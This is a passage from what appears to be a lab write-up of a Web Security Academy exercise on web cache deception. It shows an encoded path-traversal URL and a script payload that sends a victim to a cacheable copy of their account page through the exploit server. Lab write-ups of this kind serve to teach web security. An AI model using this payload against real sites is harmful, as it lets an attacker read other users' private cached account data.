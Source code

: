 **Step7:**

Simply copy the url add add it in script but we encode .. So /../../../../ look like
`%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f`

Befoce encoding we have

`https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account;..%2f.%2f..%2f..%2frobots.txt?cacheBusting`

After encoding we have
```
https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account;%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2frobots.txt?cacheBusting5
```

Final script look like
```
<script>document.location="https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account;%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2frobots.txt?cacheBusting5"</script>
```

Now we store it and deliver it to victim

<img src="images/image87.jpg" alt="third" width="500">

When I paste url in new window it will redirect to login page

<img src="images/image88.jpg" alt="third" width="500">
